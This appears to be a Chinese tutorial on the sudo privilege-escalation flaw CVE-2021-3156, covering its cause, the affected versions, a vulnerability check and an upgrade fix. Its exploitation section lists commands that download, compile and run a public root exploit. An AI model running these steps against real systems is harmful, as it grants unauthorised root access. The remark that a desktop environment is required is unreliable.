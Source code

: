 ## 什么是Sudo
sudo是linux系统管理指令，是允许系统管理员让普通用户执行一些或者全部的root命令的一个工具，如halt、reboot、su等等。这样不仅减少了root用户的登录 和管理时间，同样也提高了安全性，sudo不是对shell的一个代替，它是面向每个命令的。
```
当用户使用id命令查看
uid=1001(db_backup) gid=1001(db_backup) groups=1001(db_backup), 27(sudo)
有27(sudo)说明属于sudo组，可以输入本用户密码来使用sudo命令。
```
## Sudo溢出(CVE-2021-3156)漏洞原理

本漏洞存在于Sudo上--一个基于堆的缓冲区溢出漏洞（CVE-2021-3156，该漏洞被命名为“Baron Samedit”）
在sudo解析命令行参数的方式中发现了基于堆的缓冲区溢出。
当在类Unix的操作系统上执行命令时，非root用户可以使用sudo命令来以root用户身份执行命令。由于sudo错误地在参数中转义了反斜杠导致堆缓冲区溢出，从而允许任何本地用户（无论是否在sudoers文件中）获得root权限，无需进行身份验证，且攻击者不需要知道用户密码。

## 影响范围
sudo程序 1.8.2 - 1.8.31p2
sudo程序 1.9.0 - 1.9.5p1
查看版本：sudo --version
条件：**需要目标服务器有桌面环境**，所以较为鸡肋的漏洞
判断：sudoedit -s / （报错：提示/不是常规文件 则存在漏洞）
## []()利用
判断：sudoedit -s / （报错：提示/不是常规文件 则存在漏洞）
```
下载exp
    • 下载：wget https://hub.fastgit.org/blasty/CVE-2021-3156/archive/main.zip
解压exp
    • unzip main.zip
编译exp
    make
提权
    ./sudo-hax-me-a-sandwich ubuntu

whoami
```
```
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
chmod a+x sudo-hax-me-a-sandwich
./sudo-hax-me-a-sandwich 
选择内核
./sudo-hax-me-a-sandwich 1
whoami
```
## []()修复建议

目前官方已在sudo新版本1.9.5p2中修复了该漏洞，请受影响的用户尽快升级版本进行防护。\
下载地址：[https://www.sudo.ws/download.html](https://link.zhihu.com/?target=https%3A//www.sudo.ws/download.html)

